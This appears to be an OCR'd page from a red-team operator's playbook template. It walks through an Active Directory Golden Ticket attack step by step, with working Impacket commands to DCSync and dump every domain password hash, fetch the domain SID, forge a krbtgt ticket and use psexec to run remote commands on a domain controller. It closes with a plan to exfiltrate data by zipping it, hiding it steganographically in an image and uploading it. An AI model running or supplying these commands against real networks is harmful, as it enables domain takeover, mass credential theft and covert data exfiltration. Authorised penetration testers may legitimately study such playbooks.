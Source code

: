 ========== DAY 3 ACTIONS ==========

Lateral Movement

Golden Ticket Attack

Sources: 

https://yojimbosecurity.ninja/golden-ticket/  

https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden 

We require 3 things to create the golden ticket

krbtgt NT Hash

Domain

Domain SID

secretsdump.py - DCSync to retrieve krbtgt hashes

This performs a DCSync attack to the domain controller in our current domain to retrieve all the password hashes in the domain.

We can poke around in bloodhound to determine what users have DCSync Rights

With this account we perform the DCSync

proxychains python3 /home/kali/.local/bin/secretsdump.py <% tp.frontmatter.CUS_SUBD1 %>/<USERNAME>:'<PASSWORD>'@<DC_HOSTNAME>.<% tp.frontmatter.CUS_SUBD1 %> > <% tp.frontmatter.CUS_SUBD1 %>.secrets
cat <% tp.frontmatter.CUS_SUBD1 %>.secrets | grep krbtgt | grep :::

You will get all of the password hashes for users within the domain

lookupsid.py - retrieve domain SID

proxychains python3 /home/kali/.local/bin/lookupsid.py <% tp.frontmatter.CUS_SUBD1 %>/<USERNAME>:'<PASSWORD>'@<DC_HOSTNAME>.<% tp.frontmatter.CUS_SUBD1 %> > <% tp.frontmatter.CUS_SUBD1 %>.SID
cat <% tp.frontmatter.CUS_SUBD1 %>.SID | grep "Domain SID"

Create the golden ticket

ticketer.py -nthash <KRBTGT_HASH> -domain-sid <DOMAIN_SID> -domain <% tp.frontmatter.CUS_SUBD1 %> golden

Export the golden ticket so you can use it

export KRB5CCNAME=$(pwd)/golden.ccache

Using the Golden Ticket

proxychains python3 /home/kali/.local/bin/psexec.py -dc-ip 10.10.20.8 -target-ip 10.10.20.8 -no-pass -k hr.customer.net/golden@hr-dc.hr.customer.net

this creates a kerberos authentication ticket that we can use to run remote commands with psexec.py. 

Exfiltration

Stage data in a folder in the user's documents folder, zip into an archive, steg the .zip into an image, and upload the stegged image using raven
